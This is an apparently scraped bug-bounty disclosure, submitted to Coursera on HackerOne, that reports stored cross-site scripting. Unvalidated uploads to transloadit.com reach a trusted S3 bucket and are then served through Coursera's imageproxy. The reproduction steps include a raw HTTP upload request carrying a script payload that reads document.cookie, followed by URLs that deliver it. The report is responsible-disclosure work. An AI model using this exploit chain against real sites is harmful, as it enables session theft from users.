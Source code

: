 # Stored XSS via transloadit.com and imageproxy

## Report Details
- **Report ID**: 216822
- **URL**: https://hackerone.com/reports/216822
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-03-28T22:32:00.312Z
- **Disclosed**: 2017-11-30T21:38:45.594Z

## Reporter
- **Username**: c0rdis
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: coursera

## Vulnerability Information
Hello,
due to poor input file validation on transloadit.com, it is possible to upload and process any filetype on their server, which would later be uploaded to coursera-profile-photos.s3.amazonaws.com. From there, since imageproxy trusts coursera-profile-photos.s3.amazonaws.com, one can fetch arbitrary content and, in case of javascript, get it executed in the browser. 

Steps to reproduce:

1) Let's send html file with trivial XSS vector to transloadit.com. Please note that no authentication is required.
POST /assemblies/[hash]?redirect=false HTTP/1.1
Host: isadora.transloadit.com
Referer: https://api.coursera.org/account/profile
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------185739484714145007371896001880
Content-Length: 521

-----------------------------185739484714145007371896001845
Content-Disposition: form-data; name="params"

{"max_size":1048576,"auth":{"key":"[hash2]"},"template_id":"[hash3]"}
-----------------------------185739484714145007371896001845
Content-Disposition: form-data; name="my_file"; filename="stored_xss.html"
Content-Type: text/html

<html>
<script>
alert(document.cookie);
</script>
</html>
-----------------------------185739484714145007371896001845--

2) By accessing https://isadora.transloadit.com/assemblies/[hash]?seq=0&callback=, we can learn the URL of the uploaded malicious file (in this case it's http://coursera-profile-photos.s3.amazonaws.com██████████stored_xss.html)

3) Since it's already trusted, we could use it to upload as the profile photo, or to fetch via imageproxy as mentioned above. Final URL: https://www.coursera.org/api/utilities/v1/imageproxy/http://coursera-profile-photos.s3.amazonaws.com█████stored_xss.html

Please find the screenshot attached.
AA

## Attachments
No attachments
